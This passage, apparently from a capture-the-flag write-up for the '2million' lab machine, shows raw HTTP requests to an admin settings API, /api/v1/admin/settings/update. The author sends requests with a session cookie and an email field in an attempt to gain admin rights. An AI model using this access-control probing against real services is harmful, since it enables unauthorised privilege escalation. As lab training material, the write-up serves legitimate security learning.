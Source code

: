 - Nice, we can just add `Content-Type: application/json` here and explore more.

  ```
  Request:

  PUT /api/v1/admin/settings/update HTTP/1.1
  Host: 2million.htb
  User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
  Accept-Language: en-US,en;q=0.5
  Accept-Encoding: gzip, deflate, br
  Connection: keep-alive
  Referer: http://2million.htb/home/access
  Cookie: PHPSESSID=um757ovsecv1vf5479od3lnb1v
  Content-Type: application/json
  Upgrade-Insecure-Requests: 1
  Priority: u=0, i
  
  Response:
  
  HTTP/1.1 200 OK
  Server: nginx
  Date: Wed, 11 Jun 2025 22:43:50 GMT
  Content-Type: application/json
  Connection: keep-alive
  Expires: Thu, 19 Nov 1981 08:52:00 GMT
  Cache-Control: no-store, no-cache, must-revalidate
  Pragma: no-cache
  Content-Length: 56
  
  {"status":"danger","message":"Missing parameter: email"}
  ```

- Keep digging until you become an admin. Remember to use username and email for the account you made after using the code earlier!

  ```
  Request:

  PUT /api/v1/admin/settings/update HTTP/1.1
  Host: 2million.htb
  User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
  Accept-Language: en-US,en;q=0.5
  Accept-Encoding: gzip, deflate, br
  Connection: keep-alive
  Referer: http://2million.htb/home/access
  Cookie: PHPSESSID=um757ovsecv1vf5479od3lnb1v
  Content-Type: application/json
  Upgrade-Insecure-Requests: 1
  Priority: u=0, i
  Content-Length: 35
  
  {
  	"email":"bimbo@test.com"
  }
  
  Response:
  
  HTTP/1.1 200 OK
  Server: nginx
  Date: Wed, 11 Jun 2025 22:45:18 GMT
  Content-Type: application/json
  Connection: keep-alive
  Expires: Thu, 19 Nov 1981 08:52:00 GMT
  ```